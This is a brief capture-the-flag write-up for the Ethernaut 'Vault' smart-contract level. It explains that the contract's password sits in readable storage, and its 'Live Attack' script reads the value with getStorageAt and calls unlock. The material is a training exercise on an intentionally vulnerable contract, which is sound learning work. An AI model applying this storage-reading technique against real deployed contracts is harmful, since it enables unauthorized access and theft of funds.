 # Vault

[Vault](https://ethernaut.openzeppelin.com/level/0xBA97454449c10a0F04297022646E7750b8954EE8)

Contract stores password in state storage and hence can be read using `getStorageAt`.


<BR />

## Live Attack

// Contract Address: 0xB309aC0a59E4990d8a57Ef9257f3ab49577c4CBa

```BASH
vault = await Vault.at("0xB309aC0a59E4990d8a57Ef9257f3ab49577c4CBa")
pass  = await web3.eth.getStorageAt(vault.address, 1)
sender = accounts[5]

await vault.locked()
await vault.unlock(pass, {from: sender})
await vault.locked()
```
